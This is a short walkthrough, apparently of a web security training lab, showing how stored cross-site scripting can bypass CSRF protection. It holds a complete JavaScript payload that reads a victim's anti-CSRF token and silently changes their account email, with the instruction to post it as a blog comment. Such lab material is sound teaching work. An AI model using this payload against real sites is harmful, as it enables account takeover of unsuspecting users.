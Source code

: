 # Lab: Exploiting XSS to perform CSRF

Login and notice the "change email" link on the account page. Inspect it to see that a POST request must be issued to the `/my-account/change-email` path with an `email` parameter. There is also an anti-CSRF token in the input (token).

The exploit needs to load the user page, extract the token, and then use the token to change the email.

The following script can accomplish this:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Submit this as a blog post comment body to complete the lab.